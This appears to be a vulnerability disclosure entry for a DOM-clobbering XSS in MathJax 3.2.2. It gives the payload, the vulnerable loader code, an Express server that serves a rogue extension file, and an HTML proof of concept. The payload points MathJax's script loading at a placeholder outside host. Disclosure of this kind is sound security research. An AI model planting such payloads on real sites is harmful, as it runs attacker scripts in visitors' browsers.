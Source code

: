 ## MathJax

### Meta

+ Library: MathJax
+ Stars: 10.1K
+ Version: v3.2.2
+ Fingerprint: `MathJax.version == "3.2.2"`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img> $$\require{tex}$$```
+ Impact: XSS
+ CVE: N/A
+ Status: Accepted
+ Foundby: TheHulk


### Library

https://cdn.jsdelivr.net/npm/mathjax@3.2.2/es5/tex-mml-chtml.js
https://cdnjs.cloudflare.com/ajax/libs/mathjax/3.2.2/es5/tex-mml-chtml.js

### Vulnerable Code Snippet

```javascript
t.getRoot = function() {
    var t = "//../../es5";
    if ("undefined" != typeof document) {
        var e = document.currentScript || document.getElementById("MathJax-script");
        e && (t = e.src.replace(/\/[^\/]*$/, ""))
    }
    return t
}
```
```javascript
prefix: function(t) {
    for (var r; (r = t.name.match(/^\[([^\]]*)\]/)) && e.CONFIG.paths.hasOwnProperty(r[1]); )
        t.name = e.CONFIG.paths[r[1]] + t.name.substr(r[0].length);
    return !0
}
```

## PoC

Note that some MathJax instances may be configured differently. If the image loads before MathJax is started, then `MathJax.config.loader.paths.mathjax` should be clobbered. Then, check `MathJax.config.loader.paths` or `MathJax.config.loader.source` to see what dependencies can be loaded in.

Please note that for the following proof of concept, you will need to replace `xxx.xxx.xxx` with your own server address.
```
const express = require('express');
const path = require('path');

const app = express();
const port = 3000; 

app.get('/input/tex/extensions/tex.js', (req, res) => {
  const filePath = path.join(__dirname, 'poc', 'tex.js');
  res.sendFile(filePath);
});

// Start the server
app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```

### PoC #1

```html
<!--Library-->
<script id="MathJax-script" async src="https://cdn.jsdelivr.net/npm/mathjax@3/es5/tex-mml-chtml.js"></script>
$$\require{tex}$$
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999"></img>
<!--Payload-->
```